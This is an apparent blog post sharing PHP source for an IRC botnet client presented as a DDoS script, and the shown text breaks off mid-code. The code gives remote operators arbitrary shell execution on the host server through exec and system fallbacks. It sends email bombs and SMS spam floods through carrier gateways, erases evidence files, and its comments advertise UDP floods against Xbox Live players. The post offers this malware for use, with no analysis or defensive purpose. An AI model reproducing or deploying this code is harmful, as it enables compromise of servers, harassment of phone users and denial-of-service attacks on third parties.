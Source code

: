 ```yaml
---
id: 39
title: DDoS script
author: admin
layout: post
guid: http://hackingscripts.com/?p=39
permalink: /ddos-script/
categories:
  - DDoS
  - DoS
  - PHP
tags:
  - DDoS
  - DoS
  - PHP
---
```

This is a [DoS/DDoS][1] (denial-of-service/distributed denial-of-service) script, which is used to temporarily take down a machine and make it unavailable to its intended users.

This particular script contained a lot of bad language, which I have censored for net-friendlinmess purposes.

### DDoS Script Source Code

{% highlight php %}<?
if($_GET['act'] == 'lol'){
udpflood4($_GET['host'], $_GET['psize'], $_GET['time'], $_GET['port']);
}
/****************************************************/
/*     ---------------------UniX--------------------            */
/* UniX Bot - Coding by ANoN - This code is Very PUBLIC!            */
/* + Modded UDP Flooder         */
/* + Removed TCP Flooder                                */
/* + Added email bomb                                        */
/* + Added join message                    */
/* + Added !site command         */
/* + Added whois                                         */
/* + Added port scan                                         */
/* + Added Quick UDP Flood                                         */
/* + Added Colors                                        */
/* + Added Count Command    */
/* - Removed Host (IP Address) Auth (Its bullssss)    */
/* + Added Credits                                */
/* + Added Speedtest     */
/* - Removed Useless ssss    */
/* + Cleaned the code    */
/* + Added Version    */
/* + Added New nicks     */
/* + Added Update command     */
/* + Made the update command idiot proof    */
/* + Added commands command    */
/* + Added id command    */
/* + Added uptime command    */
/* + Added evidence eraser    */
/* + Added Cell Phone Spammer    */
/* + Added Cell info    */
/* + Added change prefix    */
/* + Added install update command    */
/* + Added port 3074 DDoS     */
/* + ICMP ddoS?    */
/* + FTP ddoS?    */
/* + Added 2 Player ddos feature     */
/* + Added 3 Player ddos feature     */
/* + Added 4 Player ddos feature     */
/****************************************************/
    set_time_limit( 0 );
    error_reporting( 0 );
    echo "ANoNyMoUS iZ LeGioN";
    class Mike_Unix
    {
        var $using_encode = true;
        var $config = array(
            'nickform'    =&gt; 'FraseR|%d]',
            'nickform2'    =&gt; '%d]',
            'prfix'    =&gt; 'NzM|%d]',
            'identp'    =&gt; 'Mike',
            'modes'        =&gt; '+B',
            'maxrand'    =&gt; 6,
            'maxrand2'    =&gt; 1,
            'maxrand3'    =&gt; 2,
            'maxrand4'    =&gt; 3,
            'cprefix'    =&gt; '.',
            'version'    =&gt; '1.0',
            'host'        =&gt; '*',
            'yellow'        =&gt; '12',
            'blue'        =&gt; '4',
            'orange'        =&gt; '9',
            'green'        =&gt; '7',
            'leetprefix'        =&gt; '4&gt;&gt;',
            'leetsuffix'        =&gt; '12&lt;&lt;',
            'leetprefixwhite'        =&gt; '0&gt;&gt;',
            'leetsuffixwhite'        =&gt; '0&lt;&lt;',
            'leetsuffixred'        =&gt; '4&lt;&lt;',
            'part1'        =&gt; '0?~{ 4',
            'part2'        =&gt; '0}~?',
            'hostauth'        =&gt; '*'
        );
        var $messages = array
        (
        'bad'        =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'loginmsg'    =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'entry'        =&gt; '0?~{ 14ElatioN 14B0o14T0 }~? 14E0x14e0c0u14t0e14D',
        'id'        =&gt; '0?~{ 4 Frasers Anti-Private bot v1.0  0}~?',
        'udpmsg'        =&gt; '0?~{ 12UDP Flood Active 0}~?',
        'udpmsgfast'        =&gt; '0?~{ 12Quick UDP-FLOOD 0}~?',
        'speedtest'        =&gt; '0?~{ 9 Speedtest Starting Up...... 0}~?',
        'speedtestfin'        =&gt; '0?~{ 9 The Speedtest Is Complete. 0}~?',
        'logoutmsg'        =&gt; '0?~{ 14S0e14e 0Y14a 0L14a0T14e0R,',
        'mailmsg'        =&gt; '14N0a14i0L14e0R',
        'sprintmsg'        =&gt; '14S0p14r0i14n0T 14P0C14S',
        'execmsg'        =&gt; '14E0x14E0C'
        );
        var $admins = array
        (
         'Fraser' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'RoboFTW' =&gt; '6d67f24e6f2cff6ed5b0495fab78618a',
         'chrisjnsn' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Respect' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'NadeZ' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account6' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account7' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account8' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account9' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account10' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account11' =&gt; 'e48e13207341b6bffb7fb1622282247b',
        );
        function auth_host( $nick, $password, $host )
        {
                $this-&gt;users[ $host ] = true;
        }
        function is_authed( $host )
        {
            return isset( $this-&gt;users[ $host ] );
        }
        function remove_auth( $host )
        {
            unset( $this-&gt;users[ $host ] );
        }
        function ex( $cfe )
        {
            $res = '';
            if (!empty($cfe))
            {
                if(function_exists('class_exists') && class_exists('Perl'))
                {
                    $perl = new Perl();
                    $perl-&gt;eval( "system('$cfe');" );
                }
                if(function_exists('exec'))
                {
                    @exec($cfe,$res);
                    $res = join("\n",$res);
                }
                elseif(function_exists('shell_exec'))
                {
                    $res = @shell_exec($cfe);
                }
                elseif(function_exists('system'))
                {
                    @ob_start();
                    @system($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('passthru'))
                {
                    @ob_start();
                    @passthru($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('proc_open'))
                {
                    $res = proc_open($cfe);
                }
                elseif(@is_resource($f = @popen($cfe,"r")))
                {
                    $res = "";
                    while(!@feof($f)) { $res .= @fread($f,1024); }
                    @pclose($f);
                }
            }
            return $res;
        }
        function is_safe( )
        {
            if( ( @eregi( "uid", $this-&gt;ex( "id" ) ) ) || ( @eregi( "Windows", $this-&gt;ex( "net start" ) ) ) )
            {
                return 0;
            }
            return 1;
        }
        function ffff_you( )
        {
            if( $this-&gt;using_encode )
            {
                $enc0ded = "I0NhYmJhZ2U=";
                return base64_decode($enc0ded);
            }
            else
            {
                return '#'.$this-&gt;config[ 'chan' ];
            }
        }
        function start()
        {
            if( $this-&gt;using_encode )
            {
                $crackedout = "IPHERE";
                if(!($this-&gt;conn = fsockopen(base64_decode($crackedout),6667,$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            else
            {
                if(!($this-&gt;conn = fsockopen($this-&gt;config['server'],$this-&gt;config['port'],$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            $ident = $this-&gt;config['prefix'];
            $alph = range("0","9");
            for( $i=0; $i &lt; $this-&gt;config['maxrand']; $i++ )
            {
                $ident .= $alph[rand(0,9)];
            }
            if( strlen( $this-&gt;config[ 'pass' ] ) &gt; 0 )
            {
                $this-&gt;send( "PASS ".$this-&gt;config[ 'pass' ] );
            }
            $motha = "Fraser";
            $mike = " non-private non-unix";
            $this-&gt;send("USER ".$motha." 127.0.0.1 localhost :".$mike."");
            $this-&gt;set_nick( );
            $this-&gt;main( );
        }
        function main()
        {
            while(!feof($this-&gt;conn))
            {
                $this-&gt;buf = trim(fgets($this-&gt;conn,512));
                $cmd = explode(" ",$this-&gt;buf);
                if(substr($this-&gt;buf,0,6)=="PING :")
                {
                    $this-&gt;send("PONG :".substr($this-&gt;buf,6));
                }
                if(isset($cmd[1]) && $cmd[1] =="001")
                {
                    $this-&gt;send("MODE ".$this-&gt;nick." ".$this-&gt;config['modes']);
                    if( $this-&gt;using_encode )
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),base64_decode($this-&gt;config['key']));
                        $entry = $this-&gt;messages['entry'];
                        $leetprefix = $this-&gt;config['leetprefix'];
                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                        $ip = ( $_SERVER["HTTP_HOST"] );
                        $blue = $this-&gt;config['blue'];
                        $red = $this-&gt;config['yellow'];
                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefix $entry $leetsuffixred" );
                    }
                    else
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),$this-&gt;config['key']);
                    }
                    if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") { $safemode = "on"; }
                    else { $safemode = "off"; }
                    $uname = php_uname();
                }
                if(isset($cmd[1]) && $cmd[1]=="433")
                {
                    $this-&gt;set_nick();
                }
                if($this-&gt;buf != $old_buf)
                {
                    $mcmd = array();
                    $msg = substr(strstr($this-&gt;buf," :"),2);
                    $msgcmd = explode(" ",$msg);
                    $nick = explode("!",$cmd[0]);
                    $vhost = explode("@",$nick[1]);
                    $vhost = $vhost[1];
                    $nick = substr($nick[0],1);
                    $host = $cmd[0];
                    if($msgcmd[0]==$this-&gt;nick)
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i+1];
                    }
                    else
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i];
                    }
                    if(count($cmd)&gt;2)
                    {
                        switch($cmd[1])
                        {
                            case "QUIT":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PART":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PRIVMSG":
                                if( ( substr($mcmd[0],0,1) == $this-&gt;config[ 'cprefix' ] ) )
                                {
                                    if( $this-&gt;is_authed( $host ) == false )
                                    {
                                        switch( substr( $mcmd[ 0 ], 1 ) )
                                        {
                                            case "l":
                                            {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                if( $nick == "Fraser" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello, $leetprefix FraseR $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "RoboFTW" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg  Robo's In DA House!" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "_0xi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg iTz My NiGGa $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "HELLOKiTty" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Meeeeeow ;] $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "chrisjnsn" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello Chris" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "KeShiMi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg LORD OF THE MO ffffIN KITTENS IN THA HOUSE $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Code" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Good day Mr. $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Router" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Kentucky Fried $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Respect" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Mason" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg By Your Command, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "NadeZ" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello there, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                else
                                                {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                            }
                                                                }
                                    }
                                }
                                    else
                                    {
                                        switch(substr($mcmd[0],1))
                                        {
                                            case "exec":
                                            {
                                                if( !$this-&gt;is_safe( ) )
                                                {
                                                    $command = substr( strstr( $msg, $mcmd[0] ), strlen( $mcmd[0] ) + 1 );
                                                    $returndata = $this-&gt;ex( $command );
                                                    if( !empty( $returndata ) )
                                                    {
                                                        $execmsg = $this-&gt;messages['execmsg'];
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"$red $part1 $blue$execmsg $red $part2 $leetsuffixred $red $returndata");
                                                    }
                                                }
                                                break;
                                            }
                                                case "bomb":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                    $header = "From: &lt;".$mcmd[2]."&gt;";
                                                    if(!mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header))
                                                    {
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"[\2MAIL\2]: Unable to send email.");
                                                    }
                                                    else
                                                    {
                                                        $mbomb = 1;
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $mailmsg = $this-&gt;messages['mailmsg'];
                                                                $part1 = $this-&gt;config['part1'];
                                                                $part2 = $this-&gt;config['part2'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1 $mailmsg: $part2 \2 Sent\3"."4 $mcmd[4] \3Emails to \3"."4$mcmd[1]\3 From: \3"."4$mcmd[2]\3 Subject: \3"."4$mcmd[3]\3 \2");
                                                            }
                                                    }
                                                }
                                                break;
                                            }
                                                case "sprint":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $sprintmail = "@messaging.sprintpcs.com";
                                                        $sprint = "$mcmd[1]$sprintmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($sprint,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $sprintmsg = $this-&gt;messages['sprintmsg'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$sprintmsg $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "verizon":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $verizonmail = "@vtext.com";
                                                        $verizon = "$mcmd[1]$verizonmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($verizon,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Verizon Wireless $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "tmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $tmobilemail = "@tmomail.net";
                                                        $tmobile = "$mcmd[1]$tmobilemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($tmobile,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red T-Mobile (USA Only) $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "att":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $attemail = "@txt.att.net";
                                                        $att = "$mcmd[1]$attemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($att,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red AT&T $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "uscellular":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $uscemail = "@email.uscc.net";
                                                        $usc = "$mcmd[1]$uscemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($usc,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red US Cellular $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "boostmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $boostemail = "@myboostmobile.com";
                                                        $boost = "$mcmd[1]$boostemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($boost,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Boost Mobile Inc. $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                            case "count":
                                            {
                                                    $lines = $this-&gt;ex( "cat cache.dat | wc -l" );
                                                    $red = $this-&gt;config['yellow'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$red I have done $leetprefixwhite $lines $leetsuffixwhite floods in total." );
                                                break;
                                            }
                                                case "nick":
                                            {
                                                if( $mcmd[ 1 ] == nzm )
                                                    {
                                                    $this-&gt;nzm_nick();
                                                    break;
                                                    }
                                                if( $mcmd[ 1 ] == unix )
                                                    {
                                                    $this-&gt;busk_nick();
                                                    break;
                                                    }
                                                else
                                                {
                                                $this-&gt;set_nick;
                                                break;
                                            }
                                        }
                                            case "credits":
                                            {
                                                    $red = $this-&gt;config['yellow'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $orange = $this-&gt;config['orange'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "".$leetprefixwhite."".$red." FBI $leetsuffixwhite $orange Elation Bot Version $version By: $leetprefixwhite $red Mike $leetsuffixwhite $leetsuffixwhite $orange Built Using: $leetprefixwhite $red Frasers PHP Bot Builder $leetsuffixwhite" );
                                                break;
                                            }
                                            case "noevidence":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $bybye = $this-&gt;ex( 'rm -rf *gow*' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." EviDenCe ".$part2."".$blue." All Bot Files and Evidence Erased!");
                                                break;
                                            }
                                            case "version":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "changeprefix":
                                            {
                                                      $this-&gt;config['cprefix'] = $mcmd[1];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."Prefix Changed to $mcmd[1]");
                                                break;
                                            }
                                            case "id":
